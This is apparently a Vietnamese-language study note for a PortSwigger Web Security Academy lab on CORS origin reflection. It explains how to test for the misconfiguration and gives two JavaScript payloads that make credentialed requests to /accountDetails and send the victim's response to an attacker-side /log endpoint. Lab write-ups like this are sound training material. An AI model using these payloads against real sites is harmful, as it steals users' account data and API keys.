


# CORS

### 1. CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Context: trusted all origin



Trong response có `Access-Control-Allow-Credentials: True` 

Test:

Thêm `Origin: https://example.com` vào request và ở response xuất hiện `Access-Control-Allow-Origin: https://example.com`



```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

hoặc 
```js
<html>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "Lab-id"

            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE) {
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```